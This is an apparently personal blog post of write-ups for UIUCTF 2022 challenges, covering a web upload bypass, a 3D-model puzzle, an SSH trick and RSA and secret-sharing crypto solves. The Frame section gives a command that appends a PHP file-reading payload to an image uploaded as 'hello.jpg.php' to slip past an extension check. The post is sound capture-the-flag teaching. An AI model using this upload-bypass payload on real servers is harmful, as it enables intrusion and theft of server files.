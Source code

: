 +++
title = "UIUCTF 2022 Writeups"
date = 2022-08-01
tags = ["ctf"]
layout = "single"
math = true
+++

Last weekend I took some time on Friday to do UIUCTF 2022. I placed 102nd with
462 points. Here are the writeups to the challenges I solved. My full workspace
including partial work on unsolved challenges is published at
[~mzhang/uiuctf-2022].

[~mzhang/uiuctf-2022]: https://git.sr.ht/~mzhang/uiuctf-2022

Thanks to @sampai, @vekt0r, and @᲼᲼# from the MIT osu! server for helping out
with some of the challenges :)

<!--more-->

## Web: Frame - 50 points

> "ornate wooden empty picture frame, on a teal wall"
>
> We made it easy to add a frame to your digital art! https://frame-web.chal.uiuc.tf/
>
> [handout.tar.gz](frame.tar.gz)

This challenge prompted us to upload an image, and then it would display the
image inside of a frame. Notably, this frame was done client-side, which means
the original image was not post-processed in any way. If we look at the code
that checks to make sure you uploaded a valid image:

```php
$allowed_extensions = array(".jpg", ".jpeg", ".png", ".gif");
$filename = $_FILES["fileToUpload"]["name"];
$tmpname = $_FILES["fileToUpload"]["tmp_name"];
$target_file = "uploads/" . bin2hex(random_bytes(8)) . "-" .basename($filename);

$has_extension = false;
foreach ($allowed_extensions as $extension) {
  if (strpos(strtolower($filename), $extension) !== false) {
    $has_extension = true;
  }
}
```

The flaw here is that the file extension is only checked for existence, not that
it actually occurs at the end of the file. As a result, the web server will
guess the kind of data in the file based on the final extension. We can simply
upload a file named `hello.jpg.php` and it will pass this.

The Dockerfile in the handout helpfully tells us the location of the flag, so
here is the file I uploaded:

```
cp real_image.jpg hello.jpg.php
echo '<?php echo file_get_contents("/flag"); ?>' >> hello.jpg.php
```

Uploading this file reveals the flag.

## Web: AR Pwny - 50 points

> "a green cybernetic horse grazing in the sun"
>
> Welcome to the meataverse! http://ar-pwny-web.chal.uiuc.tf/
>
> [pwny.glb](pwny.glb)

A glb file is a glTK texture. We can open this in a program such as [Blender] in
order to understand it. Use **File > Import > glb** to open the file, then hide
all of the objects except the two flag halves.

[blender]: https://www.blender.org

![Hiding blender objects](blender-objects.png)

This reveals two QR codes that can be combined into the flag.

## Pwn: easy math 1 - 88 points

> Take a break from exploiting binaries, and solve a few\* simple math problems!
>
> `$ ssh ctf@easy-math.chal.uiuc.tf` password is `ctf`
>
> [easy-math.c](easy-math.c)

This is really just a simple programming exercise. Looking at the source code,
the annoying part is that it checks that your standard input is the same as the
standard input of proc 1.

This isn't too bad to get around, since we can just puppet the pseudoterminal of
the SSH connection entirely using something like Paramiko:

```python
ssh = paramiko.SSHClient()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
ssh.connect("easy-math.chal.uiuc.tf", 22, "ctf", "ctf")

ch = ssh.invoke_shell()
print(ch.recv(1024))
```

Looks like there was a more sneaky way of solving this challenge, which is what
easy-math-2 went into, but I didn't spend enough time looking at this in order
to figure it out.

[solve script](https://git.sr.ht/~mzhang/uiuctf-2022/tree/master/item/pwn/easy-math-1/solve.py)

## Crypto: Military Grade Encryption - 50 points

> I came across a new website that claims to keep my flag safe with
> military-grade encryption. Clearly, this is going to keep my flag safe from
> anyone who may want it. https://military-grade-encryption-web.chal.uiuc.tf/

I'm not really sure what the clever way to solve this was, but all the numbers
were small enough to be brute forced, so that's what I did. Simply reverse the
process used and look for a string beginning with `uiuctf{`.

[solve script](https://git.sr.ht/~mzhang/uiuctf-2022/tree/master/item/crypto/military-grade-encryption/solve.py)

## Crypto: asr - 85 points

> Oh no I dropped my d. Good thing I'm not telling you my n.

As this challenge implies, the problem comes from reversing the typical
challenge of RSA. This time, rather than starting with a modulus and trying to
discover the private exponent, we are given the private exponent, and trying to
find the modulus.

As a reminder, once we find $N$, we can simply evaluate $c^d \mod N$ to
determine the final message.

First, we know that the relationship between $e$ and $d$ is that $ed \equiv 1
\mod \phi(N)$. Translating this to plain algebra, this means $ed - 1 = k\phi(N)$
for some positive integer $k$. This tells us that $ed - 1$ must divide
$\phi(N)$.

We used an [external factoring service] to factor $ed - 1$. Using the
`gen_prime` method given to us, we are able to validate that our factorization
ended up being what was expected: exactly 16 64-bit primes, and a handful of
smaller primes. The only thing left is organizing the 16 primes into two groups
of 8.

[external factoring service]: https://www.alpertron.com.ar/ECM.HTM

Trusty old combinatorics tells us ${16 \choose 8} = 12870$, which is easily
iterable within a matter of seconds. After picking 8 primes, we simply run
through the same process as `gen_prime` in order to generate our $p$ and $q$:

```python
for perm in tqdm(perms):
  perm = set(list(perm))
  p = prod(perm)
  q = prod(bigprimes - perm)

  for i in range(7):
    if isPrime(p + 1): break
    p *= small_primes[i]
  for i in range(7):
    if isPrime(q + 1): break
    q *= small_primes[i]

  p = p + 1
  q = q + 1
```

All that's left is to run $c^d \mod N$ and find strings that begin with
`uiuctf{` to determine which of these organizations of prime factors is the
correct one.

[solve script](https://git.sr.ht/~mzhang/uiuctf-2022/tree/master/item/crypto/asr/solve2.py)

## Wringing Rings - 139 points

> Everyone says we should use finite fields, but I loved sharing secrets this
> way so much that I put a ring on it!
>
> `$ nc ring.chal.uiuc.tf 1337`

This challenge employs a variation of [Shamir's Secret Sharing algorithm][SSS].
The crux of the algorithm involves encoding a shared secret into the
coefficients of a polynomial of degree $k$. Note that given $k + 1$ unique
points on this polynomial, the entire polynomial can be recovered. If $k$ is 6,
and we generate 12 unique points to split between 12 people, then any individual
must find 6 others in order to recover the secret.

[SSS]: https://en.wikipedia.org/wiki/Shamir%27s_Secret_Sharing

The problem with the implementation in question is that it does not operate over
a finite field, as required by the original algorithm. This leaks information
about the secret, specifically with respect to what numbers it divides, since we
know that all coefficients must be integers.

This means that even with the absence of one of the required points, we can
still reasonably recover the curve with the added information that all
coefficients are less than $500,000$.

I simply threw all of the constraints we are given into the z3 solver, and
within milliseconds the answer was given. After that it was just a matter of
hooking it up to the challenge server and waiting for the flag.

[solve script](https://git.sr.ht/~mzhang/uiuctf-2022/tree/master/item/crypto/wringing-rings/solve.py)

